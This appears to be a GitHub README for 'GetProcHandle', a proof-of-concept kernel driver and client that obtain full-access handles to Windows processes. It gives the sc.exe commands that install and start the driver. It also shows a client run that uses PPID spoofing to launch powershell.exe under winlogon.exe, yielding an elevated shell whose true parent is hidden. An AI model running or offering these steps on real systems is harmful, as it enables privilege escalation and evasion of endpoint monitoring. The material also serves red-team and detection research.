

# GetProcHandle

PoCs to get full access process handle from kernelmode.

## Installation

```
PS C:\> sc.exe create GetProcHandle type= kernel binpath= C:\Dev\GetProcHandleDrv_x64.sys
PS C:\> sc.exe start GetProcHandle
```

## Client Program Usage

Client program performs PPID Spoofing with the kernel driver.

```
PS C:\Dev> .\GetProcHandleClient.exe -h

GetProcHandleClient - Client for GetProcHandleDrv.

Usage: GetProcHandleClient.exe [Options]

        -h, --help    : Displays this help message.
        -c, --command : Specifies command to execute. Default is "cmd.exe".
        -p, --pid     : Specifies PID of parent process.

[!] -p option is required.
```

Specifies PID for PPID Spoofing with `-p` option.
Command to execute can be specified with `-c` option (default is `cmd.exe`):

```
PS C:\Dev> .\GetProcHandleClient.exe -p 696 -c powershell.exe

[>] Sending a query to \??\GetProcHandle.
[+] Got a handle to \??\GetProcHandle (Handle = 0x2D0)
[+] Got a handle to the target process (Handle = 0x2D4).
[>] Trying to create child process from the handle.
    [*] Process ID   : 696
    [*] Process Name : winlogon.exe
[+] Got a new process.
    [*] Process ID : 3408
    [*] Thread ID  : 6564
[*] Done.
```

